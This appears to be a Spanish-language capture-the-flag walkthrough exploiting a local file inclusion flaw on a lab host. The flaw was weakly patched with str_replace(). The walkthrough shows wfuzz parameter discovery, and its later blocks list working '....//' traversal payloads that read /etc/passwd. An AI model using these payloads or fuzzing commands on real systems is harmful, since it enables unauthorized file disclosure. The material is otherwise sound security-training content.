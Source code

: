 Mirando esta ruta:
```bash
http://172.17.0.2/note.txt
```

Vemos el siguiente mensaje:
```bash
Hemos detectado el LFI en el archivo PHP, pero gracias a str_replace() creemos haber tapado la vulnerabilidad
```

Asi que tenemos una via potencial de explotar un **LFI** pero tenemos que detectar que archivo es vulnerable a un **LFI**
Con este no encontramos nada, Sabiendo que estan aplicando **( str_replace() )** Sabemos que no es seguro: 
```bash
wfuzz -c --hl=9 -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u "http://172.17.0.2/file.php\?FUZZ\=whaomi"
```

**( str_replace() )** -> Permite sustituir cadenas, indicamos que donde encuentre una coincidencia: **(../)*** lo sustituya por cadenas vacias, para al final recibir solo este output: **( /etc/host )**
Sabiendo esto tenemos algunas maneras de romper esa validadcion:
```bash
../../../../etc/passwd
....//....//....//....//etc/passwd
....//....//....//....//etc//passwd
```

Probrando cada una de estas:
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/file.php?FUZZ=....//....//....//....//etc//passwd" --hl=0
```

Tenemos el parametro, Y ahora verificaremos si es vulnerable:
```bash
000000759:   200        20 L     22 W       922 Ch      "file"                                                                                                                                                                                                      
```

Realizamos el ataque:
```bash
wfuzz -c -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/file.php?file=FUZZ" --hl=0
```

Tenemos todos estas formas de aplicar un **LFI**:
```bash
"....//....//....//....//....//etc/passwd"                                                                                                      
"....//....//....//....//....//....//....//etc/passwd"                                                                                          
"....//....//....//....//....//....//etc/passwd"                                                                                                
"....//....//....//....//....//....//....//....//etc/passwd"                                                                                    
"....//....//....//....//....//....//....//....//....//etc/passwd"                                                                              
"....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                            
"....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                      
"....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                  
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                
```